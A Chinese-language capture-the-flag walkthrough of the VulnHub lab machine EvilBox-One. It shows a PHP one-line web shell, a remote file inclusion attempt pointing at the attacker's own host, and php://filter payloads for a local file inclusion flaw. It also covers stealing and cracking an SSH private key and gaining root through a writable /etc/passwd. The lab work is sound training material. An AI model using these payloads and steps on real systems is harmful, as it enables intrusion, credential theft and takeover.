


+ **靶机环境介绍**
	+ [EvilBox-One](https://download.vulnhub.com/evilbox/EvilBox---One.ova) 
	+ 难度等级 
		+ <font color=green>低 - 中</font>
+ 目标:
	+ 取得 root 权限 + 2 Flag
+ **所用技术栈**
	+ 主机发现
	+ 端口扫描
	+ 强制访问
	+ **参数爆破**
	+ 文件包含
	+ PHP封装器
	+ 任意文件读取
	+ SSH 公钥登入
	+ 离线密码破解
	+ 系统权限漏洞利用

## 主机发现与信息收集

这次的主机发现我们使用 `fping` 命令,我们知道单纯的 `ping` 命令不能直接 `ping` 整个网段,而 `fping` 则可以做到 

```bash
fping -gaq 10.0.2.0/24
# -g --generate 生成待ping列表 (可以根据ip/mask形式生成)
# -a --alive 显示存活主机
# -q --quiet 安静模式，只显示出结果，不显示 ICMP 错误
```


按照惯例，我们继续扫描其开放的端口,发现其开放了 22，80 端口


我们这次服务版本扫描使用 `-A` 参数 `-A`相当于  `-sV -sC -O` 这三个参数合起来使用


我们通过 `-A` 参数的扫描可以发现很多信息：
1. 目标系统可能为 `Debian`
2. 内核版本可能在 `4.15-5.6` 之间
3. ssh 是使用的 `OpenSSH`
4. 80 端口是由 `Apache` 开放的 `httpd` 服务产生的

既然开放了 80 端口,那我们就使用 浏览器去访问一下这个页面，发现是 `Apache2` 的默认初始界面，并没有获得什么有用的信息和攻击入口


这时候我们就想看看 `robots.txt` 里面是否有一些目录，发现并没有，只有一个 `H4x0r` 想着这玩意有没有可能是用户名或者密码，我们对 ssh 使用这个作为关键字生成字典进行爆破，无果.

是否有可能存在这个路径？ 经过访问，发现并没有这个目录/路径


在尝试多种操作无果后，我们又回到了最基本也是最重要的信息收集

之前我们尝试了 `dirsearch` 等目录遍历工具,这次我们使用 `gobuster` 来进行扫描

<font color='red' face=Monaco size=3>这款工具，默认kali并没有安装,我们需要使用 `apt-get` 来进行安装</font>

```bash
sudo apt-get install gobuster
```
<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;font-family:"monospace";'>
gobuster 这个工具和 dirsearch / feroxbuster / dirb 这些工具有很多重叠的部分，不过这个工具除了能做路径的爆破，还能做 DNS 信息收集和爆破,同时这个工具是使用 go 语言开发的,速度相对较快;
</div>

下面我们就使用这款工具来进行路径的发现

> 这边我们使用 seclists 里面的字典,如果你的目录下没有这个目录，说明你的kali并没有安装 seclists，你只需要手动安装一下即可。

```bash
gobuster dir -u http://10.0.2.10 \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt \
-x txt,php,html,jsp
```
+ `-u` 指定待爆破的 URL
+ `-w` 指定密码爆破字典 (`gobuster` 默认不提供字典)
+ `-x` 指定我们需要寻找的后缀名

经过一段时间的等待,我们扫描出来以下结果


我们发现了一个我们之前没尝试过的路径 `secret` 最为渗透测试人员，看见这个路径的名字就会敏感起来。 secret ： 秘密

所以我当即就访问了该目录，但是令人失望的是，这个路径并没有什么东西。

> 当我们扫描出来一个我们之前没有尝试过的路径时，我们最好还要以这个路径为基础，在爆破一次目录

这次我们还是使用相同的参数，相同的字典，只是在 url 后面添加上了我们刚刚爆破出来的路径 `secret`

经过一段时间，我们爆破出来了一个 `evil.php` 这个文件， 而 `evil : 邪恶` 这很明显是个提示性的名字. 我们立马访问这个页面，但是又很遗憾的是，这次又是空白界面.


针对这种情况，我们换了更大更全的字典，对这个路径进行爆破，发现还是只有这两个文件。

## 参数爆破


<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
当我们面对的页面没有直接暴露出这个页面存在哪些参数时，那么我们就有必要去针对这个页面来进行参数的爆破.
</div>

针对参数的爆破我们也有好多种方式。

之前我们都是使用 `burpsuit` 的 `intruder` 模块在 URL 后面构造 `?key=value` 形式来进行重放,所以我们要构造两个变量来进行爆破

**这次我们使用 `ffuf` 工具**

> 同样的，如果您的 kali 系统里没有这个工具，你可以使用 apt 去安装它

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:PARAM \
-w common_char.txt:VALUE \
-u http://10.0.2.10/secret/evil.php?PARAM=VALUE \
-fs 0
```
+ **参数名字典**
	+ `burp-parameter-names.txt` 这个文件保存了 burp suit 专业版里对参数爆破参数名, <font color='red' face=Monaco size=3>包含大量网站里常用的参数名</font> 

+ **参数值字典**
	+ 下面这些个字符就是我的参数值字典 `common_char.txt` （记得每个值在做成字典都要换行，一行一条记录）
		+ `1 2 3 a b c ' " , % < ; / (`
--- 

<font color='red' face=Monaco size=3>因为我们要区别出参数名和参数值，所以我们要对字典起名字，我们只需要在字典后面添加 `: + name ` 即可区分出来。</font>
+ `-w` 指定特定的字典，可以指定多个
+ `-u` 指定要爆破参数的 URL
+ `-fs 0` 代表我们要过滤掉返回页面内容大小为 0 的结果
	+ 为什么选择 `0` 这个数值呢？
	+ 因为默认刚刚我们访问这些页面时，返回的就是空页面 所以选择 0


但是很可惜我们并没有匹配上一个参数

## 文件上传

到这里，我就想是否这个服务器存在文件上传漏洞，而参数值为路径名

我们知道在当前目录的上一个目录一定存在 `index.html` 

所以我们可以使用这个文件来爆破参数

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
-u http://10.0.2.10/secret/evil.php?FUZZ=../index.html \
-fs 0
```
+ `FUZZ` 代表使用前面指定的字典匹配

发现成功匹配出一个参数 `command`


我们在浏览器上验证一下这个参数是否有效




我们在 `/var/www/html` 下新建一个一句话木马的 php 文件 ( `hacker.php` )

```php
<?php $var=shell_exec($_GET['cmd']); echo $var ?>
```

然后我们开启 `apache` 服务，kali 里默认有 `apache2` 服务,我们只需要使用一下命令，将其开启即可

```bash
sudo systemctl start apache2
```


开启之后，我们尝试一下目标靶机上是否存在远程文件包含漏洞,执行完下面的命令之后，发现并没有回显出我们想要的效果

`?command=http://10.0.2.7/hacker.php?cmd=id`


## PHP 封装器

既然目标靶机可能不存在远程文件包含漏洞,那我们就要去发现目标靶机是否存在别的漏洞.

> 发现漏洞最好的办法就是代码审计!

所以如果我们能去查看目标系统上已经存在的文件 `evil.php` 的内容，是否能通过它来发现更多漏洞 ?

**我们可以使用 PHP 的封装器来尝试读取目标靶机内的文件**

我们知道,在正常情况下，我们并不能读取到目标服务器上的 PHP 代码内容，我们网页上看到的都是 PHP 执行完后的结果.

 因为我们已经知道目标服务器上存在文件包含的漏洞，<font color='red' face=Monaco size=3>所以我们可以尝试使用 PHP 封装器的编码功能将 PHP 代码进行编码,然后在本地进行解码，从而查看其服务器上的 PHP 源码</font>

当我们执行下面这段代码之后我们发现我们成功得到一串 base64 编码的字符串。

```php
?command=php://filter/convert.base64-encode/resource=evil.php
```


我们成功得到一串 `evil.php` 源码经过 base64 编码过后的结果:

`PD9waHAKICAgICRmaWxlbmFtZSA9ICRfR0VUWydjb21tYW5kJ107CiAgICBpbmNsdWRlKCRmaWxlbmFtZSk7Cj8+Cg==`


```php
<?php
    $filename = $_GET['command'];
	include($filename);
?>
```

获得了源码之后，发现这个文件并没有别的漏洞可利用了，就是只有刚刚我们利用的，文件包含漏洞产生的原因。


<font color='red' face=Monaco size=3>其实 filter 这个 PHP 封装器还有写入的功能</font>  

我们可以先尝试一下，因为我们不知道这个web服务对网站是否有写的权限，我们只知道从目前来看，它拥有读的权限，而写的权限我们并不知道。

所以我们可以使用一下命令来尝试对目标服务器写入一点东西，来测试这个web服务是否对网站目录拥有写的权限。
我们先在本地生成一串 base64 编码的字符串


```php
?command=php://filter/write=convert.base64-decode/resource=test.php&txt=dGVzdAo=
```

然而结果却令人遗憾，我们发现我们目标系统上并不存在我们试图写入数据的文件，也就说明，在这个目录下,我们并没有写权限，


至此，对这个参数的测试已经几乎都测试完成，但是我们还没有突破靶机的边界。


### SSH 公钥登入

经过一系列 "无用" 的尝试过后,我将目光停留在最开始我们查看 `/etc/passwd`  文件内的内容

我们发现在这个文件里除了 `root` 还有一个用户 `mowree` 而这个用户有 `/bin/bash` 终端，且该名字一看就不是系统用户，然后结合最开始的信息收集 <font color='red' face=Monaco size=3>开放了 22 端口</font>

这时候我就想能否通过 ssh 暴力破解这个用户名的密码。

> 最开始的 SSH 暴力破解是使用 root 账户，或许是因为 root 账户的密码太复杂，所以导致我们暴力破解失败

所以我们非常有必要再对这个用户进行 ssh 连接尝试


我们先尝试使用 ssh 连接一下这个用户， 记得加 `-v` 参数显示详细连接过程。

```bash
ssh mowree@10.0.2.10 -v
```
我们发现 `mowree` 这个用户有两种 SSH 连接登入方式,一种是使用密码的方式 <font color='red' face=Monaco size=3>还有一种就是使用公私钥对的方式</font>



而我们可以使用我们已经发现的任意文件包含漏洞,来尝试获取其公私钥对，如果能成功获取公私钥对的话，那我们就能通过 ssh 连接上目标靶机

我们成功获取其公私钥

公钥


我们成功获取到了私钥 <kbd> Ctrl </kbd> + <kbd> U </kbd> 我们查看其源码 ( 这样格式会规范一点 )，然后复制粘贴，保存到本地的 `id_rsa` 里然后尝试使用这个私钥去登入目标服务器


保存之后，我们还需要将这个文件的权限修改一下，如果该文件的权限太低的化，会导致不能正常使用

```bash
chmod 600 ./id_rsa
```

```bash
ssh mowree@10.0.2.10 -i id_rsa
```
我们发现这个私钥还被加密了，所以没办法，要突破边界，我们还得对私钥进行暴力破解


进行暴力破解，首先我们还是得先准备字典，这边准备使用一个稍微大一点的字典。 `/usr/share/wordlists/rockyou.txt.gz`

```bash
# copy the dict to work directory
cp /usr/share/wordlists/rockyou.txt.gz .
# extract the big dict file
gunzip ./rockyou.txt.gz
```
对 ssh 进行私钥的暴力破解我们可以使用 `john` 这个工具

<font color='red' face=Monaco size=3>但是使用 john 这个工具我们还需要先将私钥的格式进行转换，我们只有转换成 john 工具识别的格式，才能开始进行暴力破解.</font>

+ 路径： `/usr/share/john/ssh2john.py`

```bash
cd /usr/share/john
./ssh2john.py ~/id_rsa > ~/hash
```
格式转换后,我们就能使用我们准备好的字典进行，暴力破解啦。

```bash
john hash --wordlist=rockyou.txt
```
这一次很快我们就成功得到了密码 `unicorn`


我们使用这个密码成功突破边界，拿到了 mowree 用户的 shell


我们也成功拿到第一个 flag 


## 权限提升

我们先查看一下 `sudo` `crontab` 的设置，发现都没有.

然后我们使用 `uname -a` 查看一下当前系统的 Linux 内核版本，去寻找该版本是否有权限提升的漏洞


我们在 kali 里使用 `searchsploit 4.19`

发现确实存在几个漏洞利用代码，但是经过一番尝试后，发现这些利用脚本并不有效


我们使用 `find` 命令来查找系统中所有具有 suid 位的文件。

```bash
find / -perm /4000 2> /dev/null
```


然后我还查找了系统里所有具有 sgid 位的文件

```bash
find / -perm /2000 2> /dev/null
```


然后我就去查找系统上所有我能写入的文件

```bash
find / -writable 2> /dev/null | grep -v proc | grep -v run | grep -v sys
```


我们查找一下有异常写权限的文件，寻找了一段时间后，我既然发现我们对 `/etc/passwd` 这个文件居然是可写的


而 `/etc/passwd` 里面有一个密码占位,既然我们可以修改这个文件，那么我们就可以在里面填充任意我想要的密码

我们可以使用 `openssl` 来生成密文 -1 是加密算法的选取


我们将成功生成的密文 （ 明文为 `123.com` ） 插入到 root 的密码占位符 `x` 上


这时候我们 `su root` 再输入我们的明文密码 `123.com` 后发现成功登入 root 账号


我们再进入到 root 的家目录 查看其最后一个 flag


<font color='green' face=Monaco size=3>至此这台靶机就已经被打靶成功！</font>